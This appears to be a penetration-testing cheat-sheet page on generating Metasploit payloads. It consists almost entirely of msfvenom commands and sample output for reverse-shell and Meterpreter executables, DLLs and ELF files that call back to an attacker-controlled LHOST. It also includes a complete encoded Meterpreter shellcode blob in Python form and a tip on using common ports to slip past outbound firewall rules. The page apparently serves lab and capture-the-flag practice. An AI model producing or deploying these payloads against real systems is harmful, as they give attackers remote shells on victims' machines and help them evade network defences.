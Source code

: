 ```yaml
---
title: "Metasploit Shellcode"
date: 2025-7-29
tags: ["Code Execution", "Metasploit", "Firewall", "Payload", "RCE", "Dll Hijacking", "Shellcode", "Reverse Shell", "Msfconsole", "Msfvenom", "Revshell"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64 (64-bit)

{{< tab set1 tab1 >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tab set1 tab4 >}}Stageless dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

{{< /tabcontent >}}

#### Windows x86 (32-bit)

{{< tab set2 tab1 >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set2 tab3 >}}Stageless dll{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 EXITFUNC=thread > rev.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.dll
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

```console {class="sample-code"}
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f elf > rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.31 LPORT=1337
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor chosen with final size 551
Payload size: 551 bytes
Final size of python file: 3088 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xc4\x65\xf0"
shellcode += b"\xfa\xa2\xb7\x5f\x27\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x38\x2d\x73\x1e\x52"
shellcode += b"\x5f\x93\x27\xc4\x65\xb1\xab\xe3\xe7\x0d\x76"
shellcode += b"\x92\x2d\xc1\x28\xc7\xff\xd4\x75\xa4\x2d\x7b"
shellcode += b"\xa8\xba\xff\xd4\x75\xe4\x28\xc1\x33\xea\x3c"
shellcode += b"\x2d\x77\x8c\x6a\x47\xb0\xe8\xff\x6e\xe7\x68"
shellcode += b"\x59\x91\x86\xa0\x9b\x7f\x66\x05\xac\xfd\xbb"
shellcode += b"\xa3\x76\xbd\xca\x96\x2d\x7b\xa8\x82\xf6\x0e"
shellcode += b"\xac\x86\x59\xb8\xfb\x72\xd1\xde\x5f\xdc\x6e"
shellcode += b"\xf2\xf5\x27\xc5\x5f\x27\xc4\xee\x70\x72\xa2"
shellcode += b"\xb7\x5f\x6f\x41\xa5\x84\x9d\xea\xb6\x8f\xac"
shellcode += b"\x8c\x7d\xa0\xbe\x29\xf7\x7f\x6e\xc5\xb5\x13"
shellcode += b"\xac\xea\x48\x96\x66\x4f\x51\x78\xb2\xa3\x61"
shellcode += b"\x12\x16\x0d\x2d\xc1\x3a\xe3\x76\x96\x2a\x68"
shellcode += b"\x24\xf1\x3b\x9a\x57\x2a\xd6\x88\x66\xbc\xde"
shellcode += b"\xaa\xf2\x66\xf6\xb1\xbd\xa8\xbe\x29\xf7\x7b"
shellcode += b"\x6e\xc5\xb5\x96\xbb\x29\xbb\x17\x63\x4f\x25"
shellcode += b"\xec\xb3\xa3\x67\x1e\xac\xc0\xed\xb8\xfb\x72"
shellcode += b"\xf6\x07\x66\x9c\x3b\xa9\xa0\xe3\xef\x1e\x7e"
shellcode += b"\x85\x3f\xb8\x79\x4e\x97\x1e\x75\x3b\x85\xa8"
shellcode += b"\xbb\xfb\xed\x17\xac\xd6\x8c\xbb\x05\x5d\x48"
shellcode += b"\x02\x6e\x7a\x12\x83\xc8\xfd\x84\x6d\x27\xc4"
shellcode += b"\x24\xa6\xb3\x2b\x51\x17\xa6\x28\xc5\xf1\xfa"
shellcode += b"\xa2\xfe\xd6\xc2\x8d\xd9\xf2\xfa\xa7\x8e\x55"
shellcode += b"\x2d\xca\x7a\xb1\xae\xeb\x3e\xbb\x6b\x4d\x94"
shellcode += b"\xb1\x40\xee\xc0\x79\x20\x3b\xb0\xbc\x73\x48"
shellcode += b"\xdf\x5e\x26\xc4\x65\xa9\xbb\x18\x9e\xdf\x4c"
shellcode += b"\xc4\x9a\x25\x90\xa8\xf6\x01\x77\x94\x28\xc1"
shellcode += b"\x33\xef\x86\x9f\x6f\x3b\xa5\xb8\x73\x60\xff"
shellcode += b"\xa0\xe7\x8c\xec\x31\xbb\x18\x5d\x50\xf8\x24"
shellcode += b"\x9a\x25\xb2\x2b\x70\x35\x37\x85\x3d\xbc\x73"
shellcode += b"\x40\xff\xd6\xde\x85\xdf\x69\x5f\xd6\xd6\xa0"
shellcode += b"\xf2\x41\xa5\x84\xf0\xeb\x48\x91\x52\x21\x8d"
shellcode += b"\x63\xfa\xa2\xb7\x17\xa4\x28\x75\xb8\x73\x40"
shellcode += b"\xfa\x6e\xee\xae\x61\xb1\xa2\xea\x3e\xa6\x66"
shellcode += b"\x7e\x67\x29\x32\xfd\x48\x8a\xa4\x3c\x65\x8e"
shellcode += b"\xaf\xea\x34\x9b\x07\x9a\xec\x06\x90\xe2\xf6"
shellcode += b"\x06\x4f\xc4\x75\xf0\xfa\xe3\xef\x17\xae\x36"
shellcode += b"\x2d\xc1\x33\xe3\x0d\x07\x83\x97\x80\x0f\x2f"
shellcode += b"\xea\x3e\x9c\x6e\x4d\xa2\xbd\xcb\x6b\xfe\xd6"
shellcode += b"\xd7\x8c\xec\x2a\xb2\x2b\x4e\x1e\x9d\xc6\xbc"
shellcode += b"\x38\xa5\x5d\x62\xdc\xdf\xc4\x18\xd8\xa2\xe3"
shellcode += b"\xe0\x06\x4f\xc4\x25\xf0\xfa\xe3\xef\x35\x27"
shellcode += b"\x9e\x24\x4a\xf1\x8d\xb8\x6f\xd8\x11\x32\xa9"
shellcode += b"\xbb\x18\xc2\x31\x6a\xa5\x9a\x25\xb3\x5d\x79"
shellcode += b"\xb6\x1b\x3b\x9a\x0f\xb2\xa3\x74\x17\x0e\x02"
shellcode += b"\x2d\x75\x0c\xd7\x03\x1e\xd8\x23\x3d\x9a\xfa"
shellcode += b"\xfb\xfe\x98\xe5\x34\xd0\x52\xac\x5d\x62\x5f"
shellcode += b"\x27"
```

{{< /tabcontent >}}
